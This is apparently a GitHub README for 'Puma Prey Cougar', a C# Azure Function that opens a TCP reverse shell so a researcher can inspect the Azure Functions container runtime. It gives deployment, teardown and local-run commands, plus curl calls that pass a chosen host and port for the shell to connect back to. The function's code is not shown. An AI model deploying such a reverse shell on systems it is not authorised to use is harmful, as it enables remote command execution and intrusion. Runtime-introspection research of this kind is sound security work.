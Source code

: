 # Puma Prey Cougar

Cougar is a C# function that can be deployed to the Azure to establish a TCP reverse shell for the purposes of introspecting the Azure Functions container runtime.

## Installing Prerequisites

* [Azure Functions Core Tools](https://docs.microsoft.com/en-us/azure/azure-functions/functions-run-local)

## Deploying the Function

Requires the Resource Group, Function App (.NET Core, Linux OS), App Service Plan, App Insights, and Storage Account to be created in US West.

```bash
az ad sp create-for-rbac -n "PumaPreyCougar"
```

```bash
func azure functionapp publish pumapreycougar
```

Manually configure the function to run under the SP created above.

Click on function app. Select platform features. Click on identity. Assign function to the service principal.

TODO: TF all the things for the consumption plan.

https://github.com/markgossa/HashiTalk1-TerraformModules
https://www.hashicorp.com/resources/provision-serverless-infrastructure-terraform-azure-pipelines

## Testing in Azure

Using the Invoke URL returned from the publish command above:

```bash
curl "<INSERT INVOKE URL>&ip=[ip-address]&port=[port]"
```

## Teardown

```bash
az group delete --name pumaprey-cougar
```

## Running Locally

```bash
dotnet restore
dotnet build
func start
```

## Testing Locally

```bash
curl 'http://localhost:7071/api/Cougar?host=YOUR_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER'
```

## Azure Function C# Template

```bash
func init Cougar --csharp --dotnet
func new --template "HTTP trigger" --name GetCougar
```
